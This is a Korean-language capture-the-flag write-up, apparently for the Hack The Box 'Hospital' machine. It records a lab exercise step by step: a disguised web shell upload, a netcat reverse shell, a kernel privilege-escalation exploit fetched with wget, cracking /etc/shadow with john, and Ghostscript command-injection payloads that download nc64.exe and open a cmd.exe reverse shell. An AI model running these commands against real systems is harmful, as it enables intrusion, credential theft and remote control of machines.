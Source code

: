 ### 사용된 취약점: 파일 업로드 취약점, 커널 취약, Ghostscript command injection
### 초기 침투
![1](https://github.com/murphy701/security/assets/50907298/a5b8506f-5d2a-42ba-8c6a-da5b65643419)
- 스캔 결과
  - 443:webmail(roundcube)
  - 8080:login, upload
  - RPC
<br></br>
- 파일 업로드 부분이 있어서 웹쉘 업로드를 시도하였지만 거부당함
  - 이미지 파일로 만들고 올리는 것으로 시도함
  - touch exploit.jpg; echo test>exploit.jpg로 파일 생성
  - https://github.com/flozz/p0wny-shell?source=post_page-----887fd3d6fee9
    - 해당 웹쉘을 사용(코드만)
  - jpg에 소스코드를 넣고 exploit.jpg파일을 업로드 할 때 burpsuite에서 exploit.jpg를 phar로 변경하여 업로드
  - hospital.htb:8080/uploads.exploit.phar로 연결
 <br></br>
  - 연결한 상태에서 rm /tmp/f; mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ip> 4444 >/tmp/f 로 reverse shell을 연결
  - kali에서는 nc -lnvp 4444로 대기
  - 연결 후 python3 -c 'import pty; pty.spawn("/bin/bash")'실행
    <br></br>

- 연결 이수 uname -r로 커널 버전 확인
- 취약한 버전의 커널인 것으로 확인되어 권한 상승을 시도함
  - CVE-2023-32629
  - 6.2.0, 5.19.0, 5.4.0 우분투에서 취약함
  - 마운트된 파일에 권한 있는 확장 속성 설정을 가능하게 하는 취약점
  - 저번 htb에서 비슷하고 본것 같은 권한상승 방법
- https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----887fd3d6fee9
- 해당 웹쉘을 리버스 쉘로 연결된 상태에서 wget <ip>:8001/exploit.sh로 다운로드 시킨다.
- kali에서는 /var/www/html에 exploit.sh를 위치 시키고 python3 -m http.server 8001을 실행한다.
  - 실행하여 권한을 상승한다.
<br></br>

- cat /etc/shadow로 drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash를 확인할 수 있다.
  - pw hash는 sha-512인 것을 알 수 있다.
- john --wordlist=/usr/share/wordlists/rockyou.txt drwilliams.txt로 패스워드를 크랙할 수 있다.
  - 해시 값 크랙 시 파일에 넣을 값으로 shadow파일 전체를 넣는다
  - pw 해시값 만이 아닌 유효 시간 부분을 전부 넣는다
  <br></br>   
- https://10.10.11.241:443으로 접속
  - drwilliams와 크랙으로 얻은 pw로 접속
- mailbox 에서 찾은 내용으로 .eps, ghostscript가 있음
   - ghostscript가 파이프 문자의 권한 유효성 검사 실패로 임의 코드 실행하는 취약점
   - 이를 이용하여 .eps파일에 스크립트 삽입
  <br></br>
- https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection?source=post_page-----887fd3d6fee9
- nc.exe, nc64.exe와 해당 웹 쉘을 다운로드한다.
  - python3 -m http.server 8001
    - 주의 사항으로 파이썬 웹 서버 명령 실행 시 경로를 /var/www/html에서 실행해야 함
  - python3 CVE_2023_36664_exploit.py --inject --payload "curl 10.10.16.24:8001/nc64.exe -o nc.exe" --filename file.eps
    - 해당 명령으로 file.eps에 페이로드를 삽입
- 이후 메일에 file.eps파일을 첨부하여 보내면 해당 서버에 nc64.exe를 다운로드 시킴
<br></br>
- nc64.exe를 다운로드 시킨 상태에서 해당 명령으로 리버스 쉘을 얻는 파일을 다시 만든다
- python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe <ip> 1111 -e cmd.exe" --filename file.eps
  - nc -lnvp 1111로 연결을 기다리고 메시지에 새로운 file.eps를 보내면 리버스 쉘을 획득할 수 있다.
- 이후에 Desktop에서 type user.txt를 이용하여 플래그 값을 출력한다
  <br></br>
### 권한 상승
- documents에서 ghostscript.bat에서 pw를 찾을 수 있다.
  - type ghostscript.bat
- 해당 pw를 이용하여 rpc연결을 시도한다.
  - drwilliams와 찾은 pw를 이용
  - rpcclient -U "drbrown" hospital.htb
### querydispinfo 실행
![querydispinfo](https://github.com/murphy701/security/assets/50907298/5efc379f-077f-466c-abc5-3d7abecc44ab)
- desc 부분에 admin과 guest가 built-in account for ~ the computer/domain이 설명 되어 있음
  - 어드민 정보와 게스트 정보가 같은 도메인에 공유 되어 있음
    - 윈도우에서 흔한 것으로 같은 도메인에서 관리됨
    - 같은 pc에 존재하는 것으로 추정
<br></br>
- 기존에 리버스 쉘로 연결 되어 있던 클라이언트 pc에서 C:\xampp\htdocs에 powny 웹쉘을 업로드
  - curl <ip>:8001/exploit.php -o shell.php
- https://hospital.htb/shell.php로 접속 시 쉘을 얻을 수 있음
  - whoami 실행 시 nt authority\system 결과가 출력되며 권한 상승을 시킨 것을 알 수 있음
- C:\Users\Administrator 에서 root.txt를 읽을 수 있게 됨
<br></br>
### 알게 된 점
- 파이썬으로 웹 서버 실행하여 파일을 다운로드 하게 할 때 /var/www/html에서 python3 -m http.server를 실행해야 정상적으로 작동한다.
